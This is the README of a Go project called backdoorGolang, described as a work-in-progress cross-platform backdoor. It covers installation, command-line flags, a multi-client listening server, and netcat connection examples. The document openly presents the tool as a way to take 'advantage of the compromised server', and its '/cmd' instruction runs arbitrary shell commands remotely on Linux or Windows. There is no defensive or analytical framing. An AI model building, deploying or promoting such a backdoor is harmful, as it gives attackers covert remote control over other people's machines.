 # backdoorGolang
Backdoor with Golang (Cross-Plateform)

_/!\ Work in progress, not a stable release /!\_

##Main goal

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :
```bash
(sudo) pacman -S community/go
```

From Debian :
```bash
(sudo) apt-get install golang-go
```

## Installation

```bash
cd $GOPATH
go get github.com/pilebones/backdoorGolang
./bin/backdoorGolang --help

```

## Usage

```bash
./bin/backdoorGolang --help
Usage of ./bin/backdoorGolang:
  -d, --debug         Enable mode debug
  -h, --host string   Set hostname to use (default "localhost")
  -l, --listen        Enable listen mode (server socket mode)
  -p, --port int      Set port number to use (default 9876)
  -v, --verbose       Enable mode verbose
  -V, --version       Display version number
```

## Server-mode

```bash
./bin/backdoorGolang -h localhost -p 1234 -l
```

Notice : Server is multi-user capable (one server for X client)

## Client-mode

/!\ Not implemented yet, use netcat meanwhile !

```bash
netcat localhost 1234
```

###Instructions

Each message submit by client is sent to all backdoor's clients like a chat. 
However, an alone chat's feature is useless, there are a set of instructions allowed by all clients which have different behavior for taking advantage of the compromised server.

####Quit Instruction

This instruction permit to logout the current user

```bash
/quit
/exit
```
Example :
```bash
echo "/quit"|netcat localhost 1234
```

####Command Instruction

This instruction permit to execute shell command from server. (OS supported : Linux, Windows)

```bash
/cmd <shell-command>
```
Example :
```bash
echo "/cmd ls -l"|netcat localhost 1234
```
